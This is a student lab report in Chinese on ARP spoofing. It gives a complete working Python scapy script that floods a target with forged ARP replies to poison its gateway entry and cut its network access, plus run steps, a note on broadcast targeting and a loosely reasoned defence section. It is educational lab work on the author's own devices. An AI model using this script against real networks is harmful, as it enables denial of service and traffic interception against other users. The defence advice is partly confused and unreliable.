





# 实验一 ARP攻击

Author: Haowen Hu

Student ID: 2023002089

# 实验目的和要求

掌握 ARP 欺骗攻击的原理和防范技术.

# 实验内容

自行组建局域网, 利用局域网中的攻击机, 通过 ARP 欺骗攻击方式, 篡改靶机的 ARP 路由表, 使得攻击机认为目标主机处于攻击者的控制下, 并通过攻击机控制目标主机的网络通信.

# 主要软件

攻击机和靶机均安装 Arch Linux 操作系统, 并配置好网卡和 IP 地址. 通过以太网接入局域网, 默认通过 DHCP 从网关获取 IP 地址.

攻击机软件脚本使用 Python 编写 (用到了 `scapy` third-party library). 脚本内容参见下方 "实验步骤" 或 [源代码文件](arp.py).

# 实验步骤

1.  攻击机安装好操作系统. 笔者选用 Arch Linux 操作系统.

2.  在系统上安装 Python 软件, 笔者选用 Anaconda. 然后用包管理器安装 `scapy` 库 (as mentioned according to the [package search page](https://anaconda.org/conda-forge/scapy)):

    ```sh
    conda install conda-forge::scapy
    ```

3.  借助 `scapy` library, 编写源代码脚本文件用于发起 ARP 攻击. 笔者写的[脚本](arp.py)如下:

    ```python
    import time

    from scapy.layers.l2 import Ether, ARP
    from scapy.all import sendp

    TARGET_MAC = "00:e0:4c:7f:ee:e6"
    FORGERY_IP = "172.16.0.1"
    FORGERY_MAC = "00:11:45:14:19:19"
    REAL_MAC = "00:30:18:0a:17:d4"
    IFACE = "enp5s0"


    def send_arp_request(arp_mac: str,
                         arp_ip: str = FORGERY_IP,
                         target_mac: str = TARGET_MAC) -> None:
        ether_packet = Ether()
        ether_packet.dst = target_mac
        arp_packet = ARP()
        arp_packet.op = 2
        arp_packet.hwsrc = arp_mac
        arp_packet.psrc = arp_ip
        arp_packet.hwdst = target_mac
        frame = ether_packet / arp_packet
        # print("Packet to send:")
        # frame.show()
        sendp(frame, iface=IFACE, verbose=False)


    def attack() -> None:
        send_arp_request(FORGERY_MAC)


    def restore() -> None:
        send_arp_request(REAL_MAC)


    def main() -> None:
        t = 0
        print("Starting ARP poisoning towards target...")
        try:
            while True:
                attack()
                time.sleep(0.01)
                t += 1
                if t % 50 == 0:
                    print(f"Sent {t} ARP attack packets")
        except KeyboardInterrupt:
            print("Restoring ARP table for target...")
            for i in range(100):
                restore()


    if __name__ == "__main__":
        main()
    ```

4.  获取靶机的 MAC 地址. 笔者条件有限, 选用自己的平板电脑作为靶机. 笔者的平板电脑连接 Wi-Fi, 通过无线路由作为局域网的二级子网关接入上层局域网, 所以可以转而设定该二级网关为靶机, 达到相同效果.

    进入二级网关 (Wi-Fi 路由器) 的设置界面, 可以从界面的设备状态中读出设备的 WAN 口 MAC 地址; 或者进入一级网关 (笔者用的是软路由) 也可以查看路由器的 MAC 地址. 为 `4C:B7:E0:8F:32:58`.

    

5.  根据获取到的 MAC 地址, 修改上述脚本中的 `TARGET_MAC`. 还需要修改 `FORGERY_MAC` 为希望通过 ARP 攻击期望欺骗靶机修改成为的目的 MAC 地址, `FORGERY_IP` 为希望通过 ARP 攻击期望欺骗靶机在 ARP 表中进行替换的 IP 地址. 笔者选择 `172.16.0.1` 和 `00:11:45:14:19:19` 作为 `FORGERY_IP` 和 `FORGERY_MAC`, 并将 `REAL_MAC` 设置为靶机的真实 MAC 地址.

6.  使用命令启动脚本进行 ARP 攻击. 注意若是非 root 用户, 添加 `sudo`.

    ```sh
    sudo python arp.py
    ```

7.  观察靶机网络状态. 若局域网接入了 Internet, 此时靶机应该无法正常访问 Internet 了. 若靶机可以查看 ARP 表的话也可以查看一下, 网关 IP 对对应的 MAC 地址条目应该已经被修改为 `FORGERY_MAC` 了.

    笔者设备有限, 索性拿自己的手机作为靶机. 可以看到启动 ARP 攻击后, 平板电脑已经不能正常联网了. 而攻击机仍可正常联网, 播放流媒体流畅无误, 上 Google 也照上无误 (笔者在软路由里装了猫, 所以可以科学上网):
    
    

    

    

    

    

    

8.  到任意时刻, 终止 ARP 攻击 (通过终端向 Python 发送 SIGINT 信号). 此时脚本会自动执行写明的 "复网逻辑", 即向各靶机重新发送能够正确映射到网关 MAC 地址的 ARP 响应报文. 复原靶机的 ARP 表后, 靶机又能正常连接到 Internet 并播放流媒体了.

    
    
    

# 运行结果 (截屏)

见上, 已经附在文间了.

# 实验分析与心得

如何防御 ARP 攻击? 由上述实验原理可知, 网络中的各主机设备要具有明辨是非的意识. 因此, 防御 ARP 攻击的关键在于:

1.  识别出攻击者的 MAC 地址, 并阻止其发起攻击.

2.  识别出攻击者的 IP 地址, 并阻止其发起攻击.

3.  识别出攻击者的行为, 并采取相应的防御措施.

ARP 攻击的防御措施有很多, 笔者认为最重要的有:

1.  限制 ARP 表的大小, 防止 ARP 表溢出.

2.  限制 ARP 请求的频率, 防止过多的请求导致网络拥塞.

3.  限制 ARP 表的过期时间, 防止 ARP 表过期导致攻击失效.

4.  限制 ARP 表的更新频率, 防止攻击者通过 ARP 表进行欺骗.

ARP 攻击的防御措施可以分为硬件和软件两类. 硬件防御措施一般集中在网络设备上, 如交换机, 路由器等, 软件防御措施一般集中在操作系统上, 如防火墙, IPS 等. 笔者认为, 硬件防御措施的效果更为直接, 但成本较高, 而软件防御措施的效果相对较好, 但成本较低. 因此, 实验者可以根据自己的实际情况选择适合的防御措施.

注: 笔者在实验过程中仅演示了单播 ARP 攻击, 即以太网帧仅指定到特定主机的 MAC 地址. 实际上通过指定多播或广播 (全 F) MAC 地址, 可以实现同时锁定多台靶机进行攻击, 感兴趣的读者可自行获取源代码进行实验. 

最后, 本实验的所有内容 (含代码) 均已上传至 GitHub: https://github.com/srcres258/netsec-exp . 欢迎 Star!
